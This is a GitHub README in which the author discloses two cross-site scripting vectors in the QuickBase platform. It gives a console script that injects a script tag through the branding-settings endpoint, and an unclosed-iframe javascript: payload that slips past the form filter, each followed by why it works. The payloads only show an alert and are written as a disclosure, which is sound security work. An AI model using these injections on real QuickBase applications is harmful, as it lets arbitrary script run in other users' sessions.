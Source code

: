 # QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

## Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

##### How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

```javascript
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + SCRIPT + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

##### Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

## Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

##### How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

```html
<iframe src="javascript: alert('HELLO!')" style="display: none"
```

##### Why does it work?
This one works for a couple of reasons:
- Omitting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.
